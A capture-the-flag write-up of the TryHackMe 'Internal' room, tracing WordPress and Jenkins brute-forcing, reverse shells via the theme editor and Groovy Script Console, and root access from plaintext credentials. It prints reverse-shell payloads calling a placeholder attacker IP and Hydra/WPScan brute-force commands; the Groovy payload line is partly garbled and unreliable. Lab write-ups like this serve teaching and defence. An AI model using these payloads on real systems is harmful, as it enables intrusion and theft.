# TryHackMe - Internal

## Overview

- **Room:** Internal
- **Platform:** TryHackMe
- **Difficulty:** Hard
- **Focus:** Network enumeration, WordPress enumeration, password brute-forcing, authenticated remote code execution, SSH access, port forwarding, Jenkins exploitation, and privilege escalation.

---

## Attack Path

The compromise followed this chain:

```text
Nmap and directory enumeration
        ↓
WordPress discovery and username enumeration
        ↓
WordPress password brute-forcing
        ↓
Authenticated theme editor code execution
        ↓
Initial reverse shell
        ↓
Credential discovery in /opt/wp-save.txt
        ↓
SSH access as aubreanna
        ↓
Jenkins service discovery
        ↓
SSH port forwarding to Jenkins
        ↓
Jenkins password brute-forcing
        ↓
Jenkins Script Console remote code execution
        ↓
Root credentials discovered in /opt/note.txt
        ↓
SSH access as root
        ↓
Root flag
```

---

# 1. Network Enumeration and WordPress Discovery

The first step was to identify the services running on the target machine and determine which applications were exposed.

I started with an Nmap service and version detection scan:

```bash
nmap -sC -sV <TARGET_IP>
```



I then used Gobuster to enumerate directories on the web server:

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

The scan identified several directories and endpoints, including `/blog`, `/phpmyadmin`, and `/wordpress`.

The relevant results were:

```text
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://10.49.149.70/blog/]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 317] [--> http://10.49.149.70/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.49.149.70/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://10.49.149.70/wordpress/]
Progress: 4614 / 4615 (99.98%)
```



Since WordPress was identified, I performed another directory enumeration against the WordPress installation:

```bash
gobuster dir -u http://<TARGET_IP>/wordpress -w /usr/share/wordlists/dirb/common.txt
```

The scan returned the following results:

```text
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.php            (Status: 301) [Size: 0] [--> http://10.49.149.70/wordpress/]
/wp-admin             (Status: 301) [Size: 325] [--> http://10.49.149.70/wordpress/wp-admin/]
/wp-includes          (Status: 301) [Size: 328] [--> http://10.49.149.70/wordpress/wp-includes/]
/wp-content           (Status: 301) [Size: 327] [--> http://10.49.149.70/wordpress/wp-content/]
Progress: 4614 / 4615 (99.98%)
/xmlrpc.php           (Status: 405) [Size: 42]
```



The discovered `/wp-admin` endpoint provided access to the WordPress login portal.

## Configuring the Local Hosts File

When I attempted to access the WordPress administration page, the server redirected requests to the hostname `internal.thm`. My machine could not resolve this hostname to the target IP address.

I added the hostname to my local `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```

I added the following entry:

```text
<TARGET_IP> internal.thm
```



With the hostname resolving correctly, I could access the WordPress login portal.

The website also redirected requests to:

```text
http://internal.thm/blog
```



## WordPress Username Enumeration

I used WPScan to enumerate WordPress usernames:

```bash
wpscan --url http://internal.thm/blog -e u
```

The scan identified a valid WordPress username.

I then used that username to perform a password brute-force attack with the RockYou wordlist:

```bash
wpscan --url http://internal.thm/blog -U <USERNAME> --passwords /usr/share/wordlists/rockyou.txt
```



The attack successfully identified the account password, allowing me to authenticate to the WordPress administration panel.

### Finding

**WordPress Installation and Valid User Account**

The target hosted a WordPress installation under `/blog`. WPScan was able to enumerate a valid username, and password brute-forcing subsequently recovered the account password.

This provided authenticated access to the WordPress administration interface.

---

# 2. Initial Access Through the WordPress Theme Editor

After logging into WordPress, I navigated to:

```text
Appearance → Theme Editor → Theme Header
```

The theme editor allowed me to modify the website's PHP code.

I inserted the following reverse shell command above the existing code:

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'");
```

I then clicked **Update File** to save the changes.

## Establishing the Reverse Shell

On my attacking machine, I started a Netcat listener:

```bash
nc -lnvp 4444
```

I navigated to the WordPress website:

```text
http://internal.thm/blog
```

Loading the page executed the modified PHP code and initiated a reverse connection to my listener.

The connection provided an initial shell on the target machine.

### Vulnerability

**Authenticated WordPress Theme Editor Code Execution**

The WordPress account had sufficient permissions to modify PHP files through the theme editor. By inserting a system command into the theme's PHP code, I was able to execute commands on the server when the modified page was loaded.

This resulted in remote code execution and provided the initial foothold on the machine.

---

# 3. Credential Discovery and SSH Access

After obtaining the initial shell, I began manually enumerating the filesystem and searching for sensitive information.

During enumeration, I discovered a file named `wp-save.txt` inside the `/opt` directory.



The file contained credentials for another user account.

The recovered credentials were used to authenticate over SSH, providing a more stable and privileged shell than the initial WordPress shell.

I connected using:

```bash
ssh aubreanna@<TARGET_IP>
```

After successfully authenticating, I gained access as the `aubreanna` user.

## User Flag

I navigated to the user's home directory and located the user flag.



### Finding

**Credentials Stored in `/opt/wp-save.txt`**

The file `wp-save.txt` contained a username and password that could be used to establish an SSH connection.

The credentials provided access to the `aubreanna` account, allowing further enumeration from a more stable shell.

---

# 4. Jenkins Service Discovery and SSH Port Forwarding

While enumerating the `aubreanna` user's home directory, I discovered another file named `jenkins.txt`.

The file contained the following information:

```text
Internal Jenkins service is running on 172.17.0.2:8080
```

This indicated that a Jenkins service was running on an internal network address.

I used the following command to inspect listening network services:

```bash
ss -tlnp
```



The output showed that port `8080` was listening locally.

This supported the information found in `jenkins.txt` and indicated that the Jenkins service was accessible from the target machine.

## Creating an SSH Tunnel

Since Jenkins was not directly accessible from my attacking machine, I used SSH local port forwarding.

I exited the existing SSH session and established a new connection with the following command:

```bash
ssh -L 1234:172.17.0.2:8080 aubreanna@<TARGET_IP>
```

This forwarded traffic from port `1234` on my attacking machine through the SSH connection to the Jenkins service at `172.17.0.2:8080`.

With the tunnel active, I could access Jenkins through:

```text
http://localhost:1234
```



The Jenkins login portal was now accessible through the forwarded connection.

### Finding

**Internally Accessible Jenkins Service**

The `jenkins.txt` file disclosed the internal address of the Jenkins service. SSH port forwarding allowed me to access the service from my attacking machine without requiring direct network access to the internal address.

---

# 5. Jenkins Authentication Brute-Forcing

After accessing the Jenkins login portal, I used Burp Suite to intercept a login attempt and inspect the authentication request.

The captured request contained the following form parameters:

```text
j_username=username&j_password=password&from=%2F&Submit=Sign+in
```

I modified the request format to use the `admin` username and Hydra's `^PASS^` placeholder:

```text
j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in
```

I also identified the authentication endpoint from the intercepted POST request:

```text
j_acegi_security_check
```

To determine the failure response, I submitted an incorrect login attempt and inspected the resulting error message.

The failed authentication response contained:

```text
Invalid username or password
```

I used this response to configure Hydra.

## Running Hydra

With the SSH tunnel active, I launched Hydra against the forwarded Jenkins service:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 1234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```



Hydra successfully identified the password for the `admin` account.

I used the recovered credentials to authenticate to Jenkins.

### Finding

**Weak Jenkins Administrator Credentials**

The Jenkins login portal accepted password authentication, and the administrator password was successfully recovered using Hydra and the RockYou wordlist.

This provided authenticated access to Jenkins and its administrative functionality.

---

# 6. Jenkins Script Console Remote Code Execution

After logging into Jenkins, I navigated to the Script Console:

```text
Manage Jenkins → Script Console
```

The Script Console allows administrators to execute Groovy scripts on the Jenkins server.

Since I had administrative access, I could use this functionality to execute operating-system commands.

## Establishing a Netcat Listener

On my attacking machine, I started a Netcat listener on port `4444`:

```bash
nc -lvnp 4444
```

## Executing the Reverse Shell Payload

I entered the following Groovy script into the Jenkins Script Console, replacing the example IP address with my attacking machine's VPN IP:

```groovy
String host = "<ATTACKER_IP>";
int port = 4444;
String cmd = "bash";

String[] sc = ["/bin/bash", "-c", "exec 5<>/dev/tcp/" + host + "/" + port + "; cat <&5 | while read line; do \\$line 2>&5 >*&*&#35;; done"];
Process p = Runtime.getRuntime().exec(sc);
p.waitFor();
```

I clicked **Run** to execute the script.

The Jenkins server initiated a reverse connection to my Netcat listener, providing another shell on the target system.

## Upgrading the Shell to an Interactive TTY

The shell was not fully interactive. Since Python was unavailable in the target environment, I used the `script` utility to spawn a pseudo-terminal:

```bash
script -qc /bin/bash /dev/null
```

This provided a more usable interactive shell for further enumeration.

---

# 7. Root Credential Discovery and Privilege Escalation

With the Jenkins shell established, I continued manually enumerating the filesystem.

I discovered a file named `note.txt` inside the `/opt` directory.

The file contained the following message:

```text
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here. Use them if you need access to the root user account.

root:<REDACTED>
```



The note disclosed credentials for the root account.

## SSH Access as Root

I used the recovered credentials to authenticate directly to the machine as root:

```bash
ssh root@internal.thm
```

The SSH login succeeded, providing root-level access to the target machine.

## Root Flag

After obtaining root access, I navigated to the `/root` directory and read the root flag:

```bash
cat /root/root.txt
```

### Finding

**Root Credentials Exposed in `/opt/note.txt`**

The file `note.txt` contained credentials for the root account. These credentials were accessible after obtaining command execution through Jenkins.

Using the recovered password, I was able to authenticate directly as root over SSH and fully compromise the machine.

### Vulnerability

**Exposed Privileged Credentials**

Sensitive root credentials were stored in a plaintext file under `/opt`. An attacker who gained sufficient access to read this file could use the credentials to authenticate as root.

The impact was complete administrative compromise of the target machine.

> **Final Result: Root Flag Obtained**

The root flag was successfully retrieved from `/root/root.txt`.




---

# Attack Chain Summary

The complete attack path I followed to compromise the Internal machine was:

```text
Nmap service enumeration
        ↓
Gobuster directory enumeration
        ↓
WordPress installation discovery
        ↓
WPScan username enumeration
        ↓
WordPress password brute-forcing
        ↓
Authenticated access to WordPress
        ↓
Theme Editor PHP code execution
        ↓
Initial reverse shell
        ↓
Credential discovery in /opt/wp-save.txt
        ↓
SSH access as aubreanna
        ↓
Jenkins service discovery
        ↓
SSH local port forwarding
        ↓
Hydra brute-forcing of Jenkins administrator
        ↓
Jenkins Script Console access
        ↓
Groovy reverse shell execution
        ↓
Root credentials discovered in /opt/note.txt
        ↓
SSH access as root
        ↓
Root flag retrieval
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| WordPress username enumeration and weak password | Enabled password brute-forcing and authenticated access to WordPress. |
| Excessive WordPress theme editor permissions | Allowed PHP code modification and remote command execution. |
| Credentials stored in `/opt/wp-save.txt` | Exposed credentials that enabled SSH access as `aubreanna`. |
| Jenkins administrator password weakness | Allowed brute-forcing and access to Jenkins administrative functionality. |
| Jenkins Script Console access | Enabled operating-system command execution and a reverse shell. |
| Root credentials stored in `/opt/note.txt` | Allowed direct SSH authentication as root and complete system compromise. |

---

# Lessons Learned

This room demonstrated how multiple weaknesses across different services can be chained together to compromise an entire system. Initial enumeration identified a WordPress installation, where username enumeration and password brute-forcing provided authenticated access. The ability to modify PHP files through the WordPress theme editor then allowed remote command execution and an initial foothold.

The importance of credential security was another major lesson. Sensitive credentials stored in `/opt/wp-save.txt` provided access to another user account, while the internal Jenkins service introduced another attack surface. SSH local port forwarding made it possible to reach the service, and weak administrator credentials exposed the Jenkins Script Console, which provided another route to command execution.

Finally, the discovery of root credentials in `/opt/note.txt` demonstrated the impact of storing privileged authentication information in accessible plaintext files. Proper access controls, strong passwords, restricted administrative functionality, secure credential storage, and network segmentation are essential to preventing this type of multi-stage compromise.
